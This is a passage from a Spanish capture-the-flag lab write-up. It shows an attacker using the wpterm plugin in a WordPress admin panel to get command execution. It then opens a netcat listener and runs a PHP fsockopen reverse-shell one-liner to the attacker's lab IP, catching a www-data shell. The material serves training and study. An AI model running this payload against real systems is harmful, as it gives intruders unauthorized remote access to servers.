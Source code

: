 Una vez dentro del panel de administración, identifico en la pestaña de plugins que `wpterm` está instalado y activo.

![](assets/img/thl-writeup-offensive/offensive2_1.png)
![](assets/img/thl-writeup-offensive/offensive2_2.png)

Con esta herramienta, soy capaz de ejecutar comandos de forma remota y establecer una conexión inversa hacia mi máquina de atacante.

```terminal
/home/kali/Documents/thl/offensive:-$ nc -lnvp 4321
	listening on [any] 4321 ...
```
```terminal
www-data:/var/www/wordpress $ php -r '$sock=fsockopen("192.168.0.99",4321);system("/bin/bash <&3 >&3 2>&3");'
```
```terminal
	... connect to [192.168.0.99] from (UNKNOWN) [192.168.0.38] 52892.

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---